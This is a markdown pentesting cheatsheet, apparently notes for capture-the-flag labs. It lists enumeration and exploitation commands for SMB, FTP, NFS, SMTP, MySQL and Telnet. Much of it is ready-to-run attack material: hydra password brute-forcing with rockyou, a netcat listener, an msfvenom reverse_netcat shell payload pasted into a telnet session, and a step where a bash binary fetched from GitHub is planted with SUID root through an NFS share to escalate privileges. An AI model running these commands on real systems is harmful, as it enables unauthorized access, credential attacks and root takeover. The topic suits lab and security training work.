 # Cheatsheet

### Common 
* ```wget http://127.0.0.1:8000/file```
* ```python3 -m http.server```
* ```systemctl stop myservice```
* [-h / -help / --help] or man
* https://www.exploit-db.com/exploits/20745
* words `sudo apt install seclists`
https://github.com/security-cheatsheet/metasploit-cheat-sheet 



### Commands 
* SSH with key `ssh -i <key-file> <username>@<ip>`
* SSH with Password `ssh username@IP`
* list all permissions `ls -la fielname`
* 


## Useful location  
  ### .ssh Key 
   * Private key ssh ```/home/user-name/.ssh```
   * This file is the private key ```id_rsa```
   * change the file permission ``` chmod 600 ```
   * `ssh -i <key-file> <username>@<ip> `
  ### Wordlists 
   * /usr/share/wordlists/SecLists/Usernames
   *  if not found install it `sudo apt install seclists`
   *  /usr/share/wordlists/rockyou.txt 
  ### Nmap


# Fast Tool 
## Netcat
* nc 192.168.1.1 8080
* nc -lvp [listening port], `nc -lvp 4444`

## Hydra 
* used to brute force Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB
* hydra -t 4 -l username -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp



# Services  
## SMB
### Enumerating SMB
* enum4linux [options] ip
* use option  ```-a``` all of the above (full basic enumeration)

### SMB Exploit 445, 139
* smbclient //[IP]/[SHARE]
* smbclient //10.10.10.2/sharefilename -U username -p 445

## Telnet 23
### Enumerating Telnet
* nmap
### Exploiting
* telnet [ip] [port]

## FTP 21
### channels 
* a command (sometimes called the control) channel
* a data channel.
### Enumerating FTP
* nmap
### Exploiting
* "ftp [IP]" into the console, and entering "anonymous", and no password when prompted.

## NFS 
### NFS Tools
* `sudo apt install nfs-common`
* by defualt mount,showmount, nfsstat, gssd, idmapd, lockd, statd,
### Enumeration
* nmap
* show all shares `/usr/sbin/showmount -e [IP] `
### Exploiting
* create folder `mkdir /tmp/mount`
* mount folder `sudo mount -t nfs IP:share /tmp/mount/ -nolock`

## SMTP 25
### Enumeration
* nmap
* msfconsole
* auxiliary/scanner/smtp/smtp_enum
### Exploiting
* ` hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV MACHINE_IP ssh` 

## MYSQL 3306
### Install 
* ` sudo apt install default-mysql-client`
### Enumeration
* nmap
### Exploiting
* ` mysql -h [IP] -u [username] -p` 

# Shells 
## Simple Shell msfvenom 

* using telnet 
```
"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format

```
* copy and paste the value on telnet session 

### Privilege Escalatation 
### Instalaltion 
* Download bash shell wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash 
## SUID
* SUID: the file or files can be run with the permissions of the file(s) owner/group.
* change bash file to suid bit `chmod +s filename`
* change to excute `chmod +x filename`
* change ower to root `chown root fielname`
* validate (sr-x) permssion `ls -la fielname`
* move the file to target (SSH/ NFS/ FTP )
* run the file with `./fielname -p` on target 
# other Important 
## Start a tcpdump listener

